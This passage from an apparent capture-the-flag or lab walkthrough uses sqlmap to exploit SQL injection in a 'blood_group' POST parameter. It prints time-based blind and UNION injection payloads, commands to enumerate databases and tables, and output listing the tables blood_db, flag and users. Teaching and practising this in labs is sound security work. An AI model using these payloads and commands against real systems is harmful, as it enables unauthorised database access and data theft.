         Type: time-based blind
        Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
        Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

        Type: UNION query
        Title: Generic UNION query (NULL) - 8 columns
        Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
    ---
    [19:33:16] [INFO] the back-end DBMS is MySQL
    web server operating system: Linux Ubuntu
    web application technology: Nginx 1.10.3
    back-end DBMS: MySQL >= 5.0.12
    [19:33:17] [INFO] fetching database names
    available databases [6]:
    [*] blood
    [*] information_schema
    [*] mysql
    [*] performance_schema
    [*] sys
    [*] test


Now that we have the dabases, let's extract table from the table 'blood'
Using GET based Method:

- sqlmap -u https://testsite.com/page.php?id=7 -D blood --tables
- sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables

Using POST based Method:
- sqlmap -r req.txt -p blood_group -D blood --tables
- sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables

Once we run these commands, we should get the the tables.

     abdul@rahman$ sqlmap -r req.txt -p blood_group -D blood --tables
     [19:35:57] [INFO] parsing HTTP request from 'req.txt'
     [19:35:57] [INFO] resuming back-end DBMS 'mysql'
     [19:35:57] [INFO] testing connection to the target URL
     sqlmap resumed the following injection point(s) from stored session:
     ---
     Parameter: blood_group (POST)
         Type: time-based blind
         Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
         Payload: blood_group=B+' AND (SELECT 3897 FROM (SELECT(SLEEP(5)))Zgvj) AND 'gXEj'='gXEj

         Type: UNION query
         Title: Generic UNION query (NULL) - 8 columns
         Payload: blood_group=B+' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a767a71,0x58784e494a4c43546361475a45546c676e736178584f517a457070784c616b4849414c69594c6371,0x71716a7a71)-- -
            ---
     [19:35:58] [INFO] the back-end DBMS is MySQL
     web server operating system: Linux Ubuntu
     web application technology: Nginx 1.10.3
     back-end DBMS: MySQL >= 5.0.12
     [19:35:58] [INFO] fetching tables for database: 'blood'
     [19:35:58] [WARNING] reflective value(s) found and filtering out
     Database: blood
     [3 tables]
     +----------+
     | blood_db |
     | flag     |
     | users    |
     +----------+

